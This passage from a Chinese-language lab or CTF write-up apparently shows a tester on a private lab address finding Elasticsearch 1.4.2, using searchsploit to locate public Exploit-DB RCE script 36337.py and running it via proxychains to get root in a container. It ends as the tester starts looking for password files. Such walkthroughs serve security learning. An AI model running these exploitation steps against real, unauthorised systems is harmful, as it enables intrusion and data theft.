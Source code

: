 ![image-20210918112034101](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918112034101.png)

发现是9200端口上是Elasticsearch服务，且版本是1.4.2

### 4.Elasticsearch漏洞利用

Elasticsearch在历史版本上曾出现过几次验证漏洞，有**RCE远程代码执行漏洞**。

所以我们尝试在kali上搜索有没有Elasticsearch相关**exp**

```
searchsploit Elasticsearch
```

![image-20210918112136386](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918112136386.png)

发现两个RCE远程代码执行漏洞，我们先尝试第一个。

将脚本**拷贝**至当前目录

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```

![image-20210918112328098](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918112328098.png)

查看脚本代码

```
vi 36337.py
```

![image-20210918112617712](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918112617712.png)

简单查看该脚本后发现该脚本使用**python2**编写的。（认真看也看不懂-.-）

执行脚本

```
proxychains python2 36337.py 172.17.0.2
```

注意：这里可能会出现执行失败的可能，只需要插入一条数据后，即可成功执行，若失败可参考链接http://www.hackdig.com/05/hack-88907.htm

![image-20210918113310676](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918113310676.png)

```
id
```

成功**获取**到该容器系统的**root权限**

### 5.获取root权限后的发现

#### 5.1发现密码文件

```
ls
```
